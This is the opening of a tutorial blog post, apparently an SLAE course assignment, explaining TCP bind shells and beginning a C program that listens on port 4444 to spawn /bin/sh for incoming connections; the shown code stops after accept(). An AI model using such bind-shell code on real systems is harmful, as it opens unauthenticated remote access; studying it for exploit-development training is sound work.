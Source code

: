 ```yaml
---
title: "Assignment 0x01: Shell_Bind_TCP Shellcode"
date: 2019-10-19
category: [SLAE]
tags: [assembly, c, python, exploit development, bind shell, linux, SLAE]
---
```

## Overview
A bind shell is a type of shell in which the system on which the code is run binds a TCP socket that is designated to listen for incoming connections to a specified port and IP address. When a bind shell is used, the system on which the bind shell is executed acts as the listener. When a connection is accepted on the bound and listening socket on the designated port and IP address, a shell will be spawned on the system on which the code is run. 

To more fully understand the underlying system calls required to create a TCP bind shell written in assembly, it is logical to begin by analyzing a TCP bind shell written using a higher level language such as C. For this purpose, the C program shown in the proceeding (first) section of this document will instruct a system to listen on all available network interfaces for connections on TCP port 4444. When a connection is established, `/bin/sh` will be executed on the system and input and output will be redirected to the system that established the TCP connection. 

After analysis of the C program is complete, the code can more easily be re-written in assembly. This processes is documented and explained in detail in the second section of this post. 

Finally, the third section of this paper demonstrates a program written in Python that allows a user to configure a port number to be used in the Shell_Bind_TCP shellcode.

## Objectives
Create a Shell_Bind_TCP shellcode that;
1. Binds to an easily configurable port number
2. Executes a shell on an incoming connection

## Analysis of Shell_Bind_TCP.c
The following code has been commented in a way that aims to break the program down into distinct sections to be referenced during analysis. A brief explanation of each commented code section will be provided in this section of the post.

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main ()
{
    /* Create a TCP Socket */
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    /* Create an IP Socket Address Structure */
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = INADDR_ANY;

    /* Bind TCP Socket to IP Socket Address Structure */
    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));

    /* Designate Socket to Listen for Connection Requests */
    listen(sockfd, 0);

    /* Accept Connection Requests on the Socket */
    int connfd = accept(sockfd, NULL, NULL);
```